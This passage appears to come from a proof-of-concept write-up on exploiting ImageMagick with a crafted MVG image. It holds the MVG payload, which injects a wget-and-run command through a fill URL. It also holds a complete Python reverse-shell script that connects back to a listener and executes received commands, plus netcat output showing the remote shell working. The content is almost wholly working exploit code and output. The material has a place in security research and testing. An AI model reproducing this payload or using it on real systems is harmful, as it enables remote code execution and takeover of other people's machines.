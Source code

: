 

### Python reverse shell with MVG image input


This time another MVG based payload, but leveraging python which needs to be on the vulnerable host.

    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://deadbeef.io/n0p.jpg"|wget 
       http://127.0.0.1/x.py -o /tmp/x.py && python /tmp/x.py")'
    pop graphic-context

The payload will download a python script using wget from a known host, and executes the script.

The python script binds to the netcat listener and `subprocess.Popen` shelling out the commands, and piping back in stdout to the socket.

```python
import socket
import os
import subprocess

s = socket.socket()

host = "127.0.0.1"
port = 443

s.connect((host, port))

while True:
  data = s.recv(1024)
  if data[:2].decode("utf-8") == 'cd':
    os.chdir(data[3:].decode("utf-8"))

  if len(data) > 0:
    cmd = subprocess.Popen(data[:].decode("utf-8"), shell=True, 
      stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE) 
    
    output_bytes = cmd.stdout.read() + cmd.stderr.read()
    output_str = str(output_bytes, "utf-8")

    s.send(str.encode(output_str + str(os.getcwd()) + '> '))
    print(output_str)

s.close()
```

While back on the netcat instance on the attacker host, have a working remote shell:

    root@kali:~/Downloads/ImageMagick-6.9.2-10# nc -l -p 443
    uname
    Linux
    /root/git/PoCs> date
    Sun 29 Sep 2019 04:24:52 PM AEST
    /root/git/PoCs> 
